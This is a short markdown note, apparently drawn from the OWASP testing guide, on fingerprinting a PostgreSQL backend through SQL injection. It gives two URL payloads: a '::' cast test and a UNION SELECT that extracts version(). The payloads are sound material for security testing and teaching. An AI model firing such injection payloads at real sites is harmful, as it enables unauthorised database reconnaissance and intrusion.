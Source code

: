 # PostgreSQL
---
# FingerPrinting
need to carefully fingerprint the backend database engine. You can determine that the backend database engine is PostgreSQL by using the _::_ cast operator.

#### Examples
```txt
http://www.example.com/store.php?id=1 AND 1::int=1
```

In addition, the function _version()_ can be used to grab the PostgreSQL banner. This will also show the underlying operating system type and version.

##### Example
```txt
http://www.example.com/store.php?id=1 UNION ALL SELECT NULL,version(),NULL LIMIT 1 OFFSET 1--
```

An example of a banner string that could be returned is:
```txt
PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
```
https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL